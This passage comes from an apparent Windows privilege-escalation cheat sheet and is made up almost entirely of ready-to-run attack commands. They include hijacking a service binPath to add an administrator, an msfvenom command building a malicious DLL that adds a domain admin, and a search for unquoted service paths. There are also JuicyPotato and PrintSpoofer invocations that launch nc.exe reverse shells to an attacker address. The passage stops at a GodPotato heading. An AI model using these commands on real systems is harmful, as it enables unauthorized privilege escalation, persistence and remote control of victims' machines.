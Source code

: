 Modify a service binary path:
```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

#### Hijack service DLLs

Generating a malicious DLL
```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

#### Abuse Unquoted service paths

Search for unquoted service paths
```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

### Other Components

#### Scheduled Tasks
```
schtasks /query /fo LIST /v
```

```
Get-ScheduledTask | select TaskName,State
```

#### SeImpersonate Privilege

##### [JuicyPotato](https://github.com/ohpe/juicy-potato)
```
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *
```

##### [PrintSpoofer64](https://github.com/itm4n/PrintSpoofer)
From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.
```
.\PrintSpoofer64.exe -c "C:\path\to\nc.exe $lhost $lport -e cmd"
```

```
.\PrintSpoofer64.exe -i -c powershell.exe
```

Releases [link](https://github.com/itm4n/PrintSpoofer/releases).

##### [GodPotato](https://github.com/BeichenDream/GodPotato)
Affected version: Windows Server 2012 - Windows Server 2022 and Windows 8 - Windows 11
